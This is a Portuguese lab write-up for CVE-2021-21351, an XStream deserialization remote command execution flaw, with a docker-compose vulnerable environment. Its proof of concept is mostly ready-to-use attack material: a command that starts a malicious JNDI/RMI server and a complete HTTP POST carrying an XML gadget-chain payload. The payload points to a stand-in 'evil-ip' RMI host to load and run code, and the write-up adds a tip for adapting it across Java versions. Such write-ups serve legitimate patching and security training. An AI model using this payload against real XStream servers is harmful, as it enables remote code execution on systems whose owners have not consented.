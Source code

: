 # XStream Deserialization Remote Command Execution (CVE-2021-21351)

XStream é uma biblioteca simples para serializar objetos para XML e vice-versa.

O XStream usa um mecanismo de lista de bloqueio ao analisar texto XML que é utilizado para se defender contra vulnerabilidades de desserialização, mas na versão 1.4.15 e anteriores, as listas de bloqueio estão incompletas e os invasores podem usar `javax.naming.ldap.Rdn$RdnEntry` e `javax.sql. rowset.BaseRowSet` para fazer uma injeção de JNDI e finalmente executar comandos arbitrários.

Links de referência:

- https://x-stream.github.io/CVE-2021-21351.html
- https://paper.seebug.org/1543/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java
- https://github.com/welk1n/JNDI-Injection-Exploit/

## Ambiente vulnerável

Inicie um servidor Springboot + XStream 1.4.15.

```
docker-compose up -d
```

Uma vez que o ambiente é iniciado, você pode enviar a seguinte solicitação para `http://your-ip:8080` para testar se o servidor foi iniciado com sucesso
![](1.png)

## Prova de Conceito

Como a versão Java de destino é superior a 8u191, você precisa da ajuda de `org.apache.naming.factory.BeanFactory` com injeção de expressão EL para executar comandos arbitrários, consulte [este artigo](https://www.veracode. com/blog/research/exploiting-jndi-injections-java).

Inicie um servidor JNDI malicioso usando [esta ferramenta](https://github.com/welk1n/JNDI-Injection-Exploit/).

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success" -A 192.168.1.142
```

![](2.png)

Usando o endereço RMI baseado no gadget de exploração SpringBoot na captura de tela acima como o valor de `<dataSource>`.

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3184

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://evil-ip:1099/example</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

`evil-ip` é o endereço do servidor RMI malicioso. Pode-se ver que `touch /tmp/success` foi executado com sucesso:

![](3.png)

Se algo der errado com o POC e a versão Java, o POC deve ser modificado alterando `<__overrideDefaultParser>false</__overrideDefaultParser>` para `<__useServicesMechanism>false</__useServicesMechanism>`.
